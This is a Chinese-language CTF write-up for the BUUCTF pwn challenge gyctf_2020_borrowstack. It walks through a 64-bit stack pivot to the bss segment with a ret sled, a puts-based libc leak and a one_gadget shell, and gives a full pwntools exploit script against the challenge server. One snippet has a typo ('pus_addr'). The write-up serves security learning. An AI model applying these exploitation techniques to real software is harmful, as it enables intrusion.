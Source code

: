 ### 64 位栈迁移 ret 滑梯

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67df8ad888c538a9b5c4b96a.png)

反编译只够溢出 0x10，第二个 read 放到了 bss 段

![](https://pic1.imgdb.cn/item/67df8b0588c538a9b5c4b9ce.png)

首先利用 pit 表中的 puts 函数泄露 libc，得先找 `pop rdi` 指令

![](https://pic1.imgdb.cn/item/67df8bcc88c538a9b5c4bc0b.png)

其次栈迁移需要 leave 指令

![](https://pic1.imgdb.cn/item/67df937888c538a9b5c4cc5d.png)

先构造 payload 迁移栈到 bss 段

```python
r.recvuntil('u want')

payload = b'a' * 0x60 + p64(bank_addr) + p64(leave)

r.send(payload)
```

第一次溢出

![](https://pic1.imgdb.cn/item/67df9ce788c538a9b5c4e3cb.png)

**需要注意不能将栈迁移到变量 bank 的开头，因为后面还需要调用 puts 等函数，往上可能会覆盖某些重要数据，因此迁移的地址应该尽量靠后**

bank 的地址距离 got 表很近，只隔着 0x30 的距离，而调用 puts 很吃栈空间，因此我们在做栈迁移的时候要把地址相对的抬高些

![](https://pic1.imgdb.cn/item/67dfa15888c538a9b5c4ef36.png)

再找找 ret 指令，相当于

```c
pop eip	# 给 eip 赋值
```

![](https://pic1.imgdb.cn/item/67df943488c538a9b5c4cdec.png)

之后再在 bss 段中构造泄露 libc 的 payload

**（只要 p64(ret) * num 中 28 >= num >= 20 即可）**

```
r.recvuntil('now!')

payload = p64(ret) * 21 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)

r.send(payload)
r.recvline()

puts_addr = u64(r.recv(6).ljust(8,b'\x00'))
print(hex(puts_addr))
```

之后就是 libc 基址了

```
libc = LibcSearcher('puts', pus_addr)
libc_base = pus_addr - libc.dump('puts')
```

但是这题不能 ROP，只能 one_gadget（可能是空间不够）

![](https://pic1.imgdb.cn/item/67dfa58288c538a9b5c4f9d4.png)

完整 payload

```python
from pwn import *
from LibcSearcher import *

r = remote('node5.buuoj.cn',26424)
# r = process('./gyctf_2020_borrowstack')

elf = ELF('./gyctf_2020_borrowstack')
bank_addr = 0x0601080
leave = 0x400699
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
pop_rdi = 0x400703
main = 0x0400626
ret = 0x4004c9

r.recvuntil('u want')

payload = b'a' * 0x60 + p64(bank_addr) + p64(leave)

r.send(payload)
r.recvuntil('now!')

payload = p64(ret) * 28 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)

r.send(payload)
r.recvline()

puts_addr = u64(r.recv(6).ljust(8,b'\x00'))
print(hex(puts_addr))

libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr - libc.dump('puts')

one_gadget = libc_base + 0x4526a

payload = b'a' * (0x60 + 8) + p64(one_gadget)

r.send(payload)
r.interactive()
```

